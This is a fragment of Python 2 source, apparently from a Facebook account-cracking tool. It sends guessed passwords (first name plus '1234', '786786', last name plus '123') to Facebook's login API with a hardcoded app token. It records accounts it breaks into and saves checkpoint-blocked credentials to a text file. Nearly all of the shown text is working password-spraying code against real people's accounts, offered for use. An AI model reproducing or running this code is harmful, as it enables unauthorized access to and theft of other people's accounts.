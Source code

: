 								print '\033[1;97m[Login Now] \033[1;97m ' + user  + ' \033[1;97m | \033[1;97m ' + pass3 + ' 👽 ' + b['name']
								oks.append(user+pass3)
							else:
								if 'www.facebook.com' in q["error_msg"]:
									print '\x1b[1;36;40m[After24Hr] \033[1;97m ' + user  + ' \x1b[1;36;40m|\033[1;97m ' + pass3 + ' 👽 ' + b['name']
									cek = open("out/CP.txt", "a")
									cek.write(user+"|"+pass3+"\n")
									cek.close()
									cekpoint.append(user+pass4)
								else:
									pass4 = b['first_name'] + '1234'
									data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass4)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
									q = json.load(data)
									if 'access_token' in q:
										print '\033[1;97m[Login Now] \033[1;97m ' + user  + ' \033[1;97m | \033[1;97m ' + pass4 + ' 👽 ' + b['name']
										oks.append(user+pass4)
									else:
										if 'www.facebook.com' in q["error_msg"]:
											print '\x1b[1;36;40m[After24Hr] \033[1;97m ' + user  + ' \x1b[1;36;40m|\033[1;97m ' + pass4 + ' 👽 ' + b['name']
											cek = open("out/CP.txt", "a")
											cek.write(user+"|"+pass4+"\n")
											cek.close()
											cekpoint.append(user+pass4)
										else:
											pass5 = '786786'
											data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass5)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
											q = json.load(data)
											if 'access_token' in q:
												print '\033[1;97m[Login Now] \033[1;97m ' + user  + ' \x1b[1;36;40m|\033[1;97m ' + pass5 + ' 👽 ' + b['name']
												oks.append(user+pass5)
											else:
												if 'www.facebook.com' in q["error_msg"]:
													print '\x1b[1;36;40m[After24Hr] \033[1;97m ' + user  + ' \x1b[1;36;40m|\033[1;97m ' + pass5 + ' 👽 ' + b['name']
													cek = open("out/CP.txt", "a")
													cek.write(user+"|"+pass5+"\n")
													cek.close()
													cekpoint.append(user+pass5)
												else:
													pass6 = b['last_name'] + '123'
													data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass6)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
													q = json.load(data)
													if 'access_token' in q:
														print '\033[1;97m[Login Now] \033[1;97m ' + user  + ' \x1b[1;36;40m|\033[1;97m ' + pass6 + ' 👽 ' + b['name']
														oks.append(user+pass6)
													else:
														if 'www.facebook.com' in q["error_msg"]:
															print '\x1b[1;36;40m[After24Hr] \033[1;97m ' + user  + ' \x1b[1;36;40m|\033[1;97m ' + pass6 + ' 👽 ' + b['name']
															cek = open("out/CP.txt", "a")
															cek.write(user+"|"+pass6+"\n")
															cek.close()